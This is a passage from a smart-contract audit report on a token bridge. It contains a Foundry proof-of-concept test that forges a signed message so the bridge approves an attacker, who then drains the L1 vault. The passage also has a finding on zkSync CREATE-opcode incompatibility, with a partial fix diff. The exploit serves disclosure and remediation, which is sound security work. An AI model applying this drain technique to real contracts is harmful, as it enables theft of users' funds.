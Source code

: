 **Proof of code:** 
```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    address attacker = makeAddr("attacker");
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    bytes memory message = abi.encode(
        address(vault), 
        0, 
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max))
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```

**Recommended Mitigation:** Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the L1Vault contract.



### [H-4] Incompatible contract creation on zkSync Era

**Description:** The `TokenFactory::deployToken()` function uses the EVM `CREATE` opcode via inline assembly to deploy new ERC20 contracts:
```javascript
assembly {
    addr := create(0, add(contractBytecode, 0x20), mload(contractBytecode))
}
```

While this works correctly on Ethereum Mainnet (L1), the zkSync Era network does not support the `CREATE` or `CREATE2` opcodes.
All contract deployments on zkSync must go through the `ContractDeployer` system contract to ensure compatibility with its zk-rollup architecture and bytecode hash verification.

**Impact:**
- The `TokenFactory` will revert when calling `deployToken()` on zkSync Era, making it impossible to deploy new ERC20 tokens on L2.
- This effectively breaks cross-chain deployment consistency, since token deployment will succeed on L1 but fail on zkSync L2.
- In production bridge setups, this would prevent users from minting or withdrawing tokens on zkSync.


**Recommended Mitigation:** Use zkSync’s ContractDeployer system contract to deploy new contracts on L2.
Example fix:
```diff
+ import { IContractDeployer, CONTRACT_DEPLOYER_SYSTEM_CONTRACT } from "@matterlabs/zksync-contracts/l2/system-contracts/ContractDeployer.sol";

function deployToken(string memory symbol, bytes memory contractBytecode) 
    public 
    onlyOwner 
    returns (address addr) 
{
-   assembly {
-       addr := create(0, add(contractBytecode, 0x20), mload(contractBytecode))
```